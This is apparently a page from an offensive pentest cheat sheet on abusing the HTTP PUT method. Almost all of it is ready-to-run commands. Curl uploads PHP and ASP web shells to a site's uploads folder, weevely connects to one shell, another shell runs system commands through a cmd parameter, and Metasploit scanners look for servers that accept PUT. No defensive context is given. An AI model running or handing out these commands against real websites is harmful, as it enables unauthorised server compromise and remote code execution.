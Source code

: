 #### [cURL](https://curl.se/)

{% hint style="info" %}
Upload Web Shell PHP
{% endhint %}

<pre class="language-bash"><code class="lang-bash">curl -X PUT $WEBSITE/uploads/index.php \
<strong>     --upload-file /tmp/unk9vvn.php \
</strong>     -H "Content-Type: application/x-php"
</code></pre>

{% hint style="info" %}
Execute Web Shell PHP
{% endhint %}

```bash
weevely "$WEBSITE/uploads/index.php" 00980098
```

{% hint style="info" %}
Upload Web Shell ASP
{% endhint %}

```bash
curl -X PUT $WEBSITE/uploads/index.aspx \
     --upload-file /tmp/unk9vvn.aspx \
     -H "Content-Type: application/x-aspx"
```

{% hint style="info" %}
Execute Web Shell ASP
{% endhint %}

```bash
curl "$WEBSITE/uploads/index.aspx?cmd=whoami"
```

#### [Metasploit](https://www.metasploit.com/)

{% hint style="info" %}
All Methods Scan
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/http/options;
    set RHOSTS $WEBSITE;
    set RPORT 443;
    set SSL true;
    run -j"
```

{% hint style="info" %}
PUT Method Scan
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/http/http_put;
    set RHOSTS $WEBSITE;
    set RPORT 443;
    set SSL true;
    set PATH /uploads;
    run -j"
```
